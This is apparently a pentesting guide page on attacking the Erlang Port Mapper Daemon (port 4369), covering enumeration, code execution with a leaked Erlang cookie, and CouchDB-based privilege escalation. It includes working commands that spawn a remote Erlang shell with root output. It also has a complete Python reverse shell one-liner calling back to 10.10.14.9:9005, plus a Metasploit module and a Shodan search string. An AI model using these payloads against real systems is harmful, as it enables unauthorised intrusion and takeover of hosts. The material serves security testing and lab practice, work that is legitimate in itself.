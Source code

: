 # 4369 Pentesting Erlang Port Mapper Daemon (epmd)


## Basic Info

The **Erlang Port Mapper Daemon (epmd)** serves as a coordinator for distributed Erlang instances. It is responsible for mapping symbolic node names to machine addresses, essentially ensuring that each node name is associated with a specific address. This role of **epmd** is crucial for the seamless interaction and communication between different Erlang nodes across a network.

**Default port**: 4369

```
PORT     STATE SERVICE VERSION
4369/tcp open  epmd    Erlang Port Mapper Daemon
```
```
This is used by default on RabbitMQ and CouchDB installations.

## Enumeration

### Manual

```bash
echo -n -e "\x00\x01\x6e" | nc -vn <IP> 4369

#Via Erlang, Download package from here: https://www.erlang-solutions.com/resources/download.html
dpkg -i esl-erlang_23.0-1~ubuntu~xenial_amd64.deb
apt-get install erlang
erl #Once Erlang is installed this will promp an erlang terminal
1> net_adm:names('<HOST>'). #This will return the listen addresses
```
```
### Automatic

```bash
nmap -sV -Pn -n -T4 -p 4369 --script epmd-info <IP>

PORT     STATE SERVICE VERSION
4369/tcp open  epmd    Erlang Port Mapper Daemon
| epmd-info:
|   epmd_port: 4369
|   nodes:
|     bigcouch: 11502
|     freeswitch: 8031
|     ecallmgr: 11501
|     kazoo_apps: 11500
|_    kazoo-rabbitmq: 25672
```
```
## Erlang Cookie RCE

### Remote Connection

If you can **leak the Authentication cookie** you will be able to execute code on the host. Usually, this cookie is located in `~/.erlang.cookie` and is generated by erlang at the first start. If not modified or set manually it is a random string \[A:Z] with a length of 20 characters.

```bash
greif@baldr ~$ erl -cookie YOURLEAKEDCOOKIE -name test2 -remsh test@target.fqdn
Erlang/OTP 19 [erts-8.1] [source] [64-bit] [async-threads:10]

Eshell V8.1 (abort with ^G)

At last, we can start an erlang shell on the remote system.

(test@target.fqdn)1>os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```
```
More information in [[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/|https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/]]\
The author also share a program to brutforce the cookie:

[[files/epmd_bf-0.1.tar.bz2]]

### Local Connection

In this case we are going to abuse CouchDB to escalate privileges locally:

```bash
HOME=/ erl -sname anonymous -setcookie YOURLEAKEDCOOKIE
(anonymous@canape)1> rpc:call('couchdb@localhost', os, cmd, [whoami]).
"homer\n"
(anonymous@canape)4> rpc:call('couchdb@localhost', os, cmd, ["python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.9\", 9005));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"]).
```
```
Example taken from [[https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution|https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution]]\
You can use **Canape HTB machine to** **practice** how to **exploit this vuln**.

### Metasploit

```bash
#Metasploit can also exploit this if you know the cookie
msf5> use exploit/multi/misc/erlang_cookie_rce
```
```
## Shodan

- `port:4369 "at port"`


